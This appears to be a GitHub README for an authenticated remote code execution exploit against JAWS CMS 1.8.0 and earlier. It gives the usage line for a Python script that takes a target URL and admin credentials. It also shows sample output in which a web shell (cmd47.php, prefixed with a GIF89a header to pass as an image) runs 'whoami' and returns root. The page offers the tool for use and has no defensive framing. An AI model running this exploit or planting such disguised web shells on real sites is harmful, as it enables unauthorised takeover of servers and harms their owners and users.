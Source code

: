 # Jaws-CMS-RCE
Authenticated RCE JAWS CMS &lt;=1.8.0


python jaws-rce.py
[+]Usage python jaws-rce.py http://victim.com/ admin admin




python jaws-rce.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin
Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/files/cmd47.php?c=whoami
GIF89a
root




